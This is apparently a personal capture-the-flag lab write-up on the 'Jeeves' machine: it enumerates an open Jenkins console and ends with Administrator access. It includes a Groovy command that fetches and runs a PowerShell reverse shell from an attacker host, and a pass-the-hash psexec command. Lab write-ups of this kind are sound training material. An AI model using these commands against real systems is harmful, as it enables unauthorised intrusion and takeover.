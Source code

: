 # Take Away
- Somethings
# Metadata
- Initial recon did not find anything useful. However, upon switching to wordlist `directory-list-2.3-medium.txt`, `feroxbuster` will identify a subdirectory  called `askjeeves` at `http://10.10.10.63:50000/askjeeves`.![[Pasted image 20240228133044.png]]
	- Upon further inspection, the URL is a page for managing `Jenkins` service. ![[Pasted image 20240228133141.png]]
	- https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security
	- If we navigate to `http://10.10.10.63:50000/askjeeves/configureSecurity/`, one can identify that `Jenkins` is configured to ` Anyone can do anything`. Hence, one can run `Groovy Script` without even login.![[Pasted image 20240228133449.png]]![[Pasted image 20240228133512.png]]
-  There is a `KeePass` database file under the path `C:\Users\kohsuke\Documents`.![[Pasted image 20240228134455.png]]
# Exploitation
- Navigate to `http://10.10.10.63:50000/askjeeves/script` and use the following script to catch a reverse shell call back.
	```
	def process = "powershell.exe -nop -w hidden -c iex(iwr http://10.10.14.23/Windows/nishang/Shells/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.23 -Port 443".execute()
	```
# PrivEsc
- Get and decrypt the `KeePass` file to gain `Administrator` NTLM hash.
- Run `impacket-psexec ./Administrator:@10.10.10.63 -hashes [LM:NTLM]` to get a shell as `nt authority\system`.